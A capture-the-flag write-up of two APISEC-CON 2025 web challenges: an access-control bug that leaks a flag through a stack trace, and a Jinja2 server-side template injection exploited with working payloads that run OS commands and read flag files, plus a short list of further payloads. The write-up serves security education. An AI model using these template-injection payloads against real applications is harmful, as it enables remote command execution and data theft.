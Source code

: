 ```yaml
---
title: "APISEC-CON CTF – Exception Excavation & Render Bender"
date: 2025-05-18
category: Web/API (IDOR & SSTI)
platform: APISEC-CON CTF 2025
author: Vaishnav Baraskar
tags: ["CTF", "APISEC-CON", "IDOR", "SSTI", "Web Exploitation", "Broken Access Control", "Template Injection", "API Security", "2025"]
---
```


## 0x00 – The Setup

API challenges always make me pause. They're subtle, often logic-based, and prone to mishandling by developers chasing "RESTful perfection." When I saw two challenges dropped back-to-back—**Exception Excavation** and **Render Bender**—I knew there was potential for mischief.

---

## 0x01 – Exception Excavation (50 pts)

### Overview

A pretty classic start. There’s a bug report system, and it fetches reports by ID. Sounds normal—until you realize it doesn’t validate access control.

So when I threw this into the request:

```
GET /report/-1
```

I didn’t get an error. Instead, I got... a stack trace. Yeah. Full exception debug trace with context.

### My Thought Process

Seeing a negative index work was enough. At that point, my hacker sense was tingling. Stack traces often leak things like:
- filesystem paths
- ENV variables
- internal logs
- flags

So I started grepping.

### Flag Discovery

Tucked inside one of the traces (on the second page of output):

```
Exception: ValueError: Invalid token
flag{st4ck_tr4c3s_r3v34l_s3cr3ts}
```

Minimal effort. Maximum reward.

---

## 0x02 – Render Bender (150 pts)

### Overview

Now this one... was spicy.

You had an endpoint that echoed user input in the response. Suspicious. It rendered something like this:

```html
Hello {{ name }}
```

Which immediately led me to test for Server-Side Template Injection (SSTI).

I tried this payload:

```python
{{7*7}}
```

And the response came back with:

```
Hello 49
```

### Confirmed SSTI

At that point, I was locked in. Time to test full Jinja2 access.

```python
{{ self.__init__.__globals__.os.popen('ls /flags').read() }}
```

Output:

```
flag1.txt
flag2.txt
```

### Flag Extraction

One-by-one, I pulled them out:

```python
{{ self.__init__.__globals__.open('/flags/flag1.txt').read() }}
```

Result:

```
flag{t3mpl4t3_1nj3ct10n_fwt}
```

Then:

```python
{{ self.__init__.__globals__.open('/flags/flag2.txt').read() }}
```

Result:

```
flag{ch41n1ng_vuln3r4b1l1t13s_f0r_th3_w1n}
```

Clean RCE, clean flags.

---

## 0x03 – Extra Payload Examples

Here’s a shortlist of other working payloads:

```jinja
{{ self.__init__.__globals__['os'].popen('id').read() }}
{{ config.items() }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

---

## 0x04 – Final Thoughts

The first challenge was basic—but a reminder that debugging info has no place in prod. The second one showed how deep the rabbit hole goes when you mix logic bugs with powerful engines like Jinja2.

In both cases, I didn’t need fancy tooling. Just curiosity, minimal recon, and classic payloads.

---

## 0x05 – Tools Used

- Burp Suite
- Python + requests
- Custom SSTI fuzz list
- JQ + grep (for stack trace filtering)

---

## 0x06 – Flags

- `flag{st4ck_tr4c3s_r3v34l_s3cr3ts}`
- `flag{t3mpl4t3_1nj3ct10n_fwt}`
- `flag{ch41n1ng_vuln3r4b1l1t13s_f0r_th3_w1n}`

---
